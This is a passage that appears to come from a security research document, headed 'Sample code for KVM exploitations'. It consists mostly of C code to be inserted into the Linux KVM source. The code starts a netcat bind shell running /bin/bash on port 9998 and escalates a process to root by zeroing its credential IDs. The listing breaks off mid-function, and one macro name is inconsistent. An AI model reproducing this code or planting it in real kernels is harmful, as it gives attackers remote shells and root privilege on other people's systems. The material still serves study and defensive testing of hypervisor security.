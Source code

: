 ## 5.1. Sample code for KVM exploitations
```C
/*
 * This code is for KVM exploitations.
 *
 * Please add code below to arch/x86/kvm/x86.c.
 *
 */

... omitted ...

#define LOG_ATTACKER 			"attacker:"
#define TYPE_CREATE_PROCESS		0
#define TYPE_PRIVILEGE_ESCALATION 	1

/* Sample exploitation function. */
static void kvm_exploit(int type)
{
	/* Process name and arguments you want to create. */
	static char *argv[] = {
		"/bin/nc", "-e", "/bin/bash", "-l", "-p", "9998",
		NULL };
	static char *envp[] = {
		"HOME=/",
		"TERM=linux",
		"PATH=/sbin:/bin:/usr/sbin:/usr/bin:",
		NULL };
	struct cred *old;
	int ret;
	int i;

	/* Create a process. */
	if (type == TYPE_CREATE_PROCESS)
	{
		pr_err(ATTACKER"Create a process. Current[%s, PID:%d], parent[%s, PID:%d]\n",
			current->comm, current->pid, current->group_leader->comm,
			current->group_leader->pid);

		ret = call_usermodehelper(argv[0], argv, envp, UMH_NO_WAIT);
	}
	/* Escalate the current privilege. */
	else
	{
		pr_err(ATTACKER"Privilege escalation. Current[%s, PID:%d], parent[%s, PID:%d]\n",
			current->comm, current->pid, current->group_leader->comm,
			current->group_leader->pid);

		for (i = 0 ; i < 2 ; i++)
		{
			if (i == 0)
			{
				old = (struct cred *)current->group_leader->cred;
			}
			else
			{
				old = (struct cred *)current->group_leader->real_cred;
			}

			old->uid.val = 0;
			old->gid.val = 0;
			old->suid.val = 0;
			old->sgid.val = 0;
			old->euid.val = 0;
```